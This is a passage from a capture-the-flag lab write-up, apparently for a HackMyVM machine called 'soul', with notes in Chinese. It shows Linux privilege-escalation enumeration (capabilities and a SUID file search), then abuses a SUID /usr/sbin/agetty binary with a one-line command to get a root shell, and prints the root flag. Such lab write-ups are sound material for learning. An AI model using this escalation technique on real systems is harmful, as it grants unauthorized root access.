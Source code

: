 ```plaintext title="getcap -r / 2>/dev/null"
/usr/bin/ping = cap_net_raw+ep
/usr/sbin/hping3 = cap_net_admin,cap_net_raw+eip
```

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/chsh
/usr/sbin/agetty
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
```

在其中，发现 `/usr/sbin/agetty` 具有 suid 权限，借此可以实现提权

## User - root

```shell
peter@soul:~$ /usr/sbin/agetty -o -p -l /bin/bash -a root tty

Debian GNU/Linux 10 soul tty

soul login: root (automatic login)

bash-5.0# whoami
root
```

### flag - root

```shell
bash-5.0# cat rootflag.txt
HMVohmygod
```
